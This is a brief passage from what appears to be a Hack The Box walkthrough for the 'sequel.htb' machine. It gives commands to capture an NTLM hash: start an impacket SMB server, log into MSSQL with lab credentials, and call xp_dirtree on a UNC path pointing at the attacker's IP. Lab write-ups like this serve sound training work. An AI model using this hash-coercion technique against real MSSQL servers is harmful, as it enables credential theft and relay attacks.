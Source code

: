 <figure><img src="../../../.gitbook/assets/image (9) (3).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### Capturing NTLM Hash via MSSQL Relay Attack

Begin SMB Server:

```
sudo impacket-smbserver ./ -smb2support
```

Authenticate to MSSQL server with newly obtained credentials:

```
impacket-mssqlclient PublicUser@sequel.htb
password: GuestUserCantWrite1
```

Trigger NTLM Relay Attack:

```
xp_dirtree '\\10.10.14.23\any\thing'
```
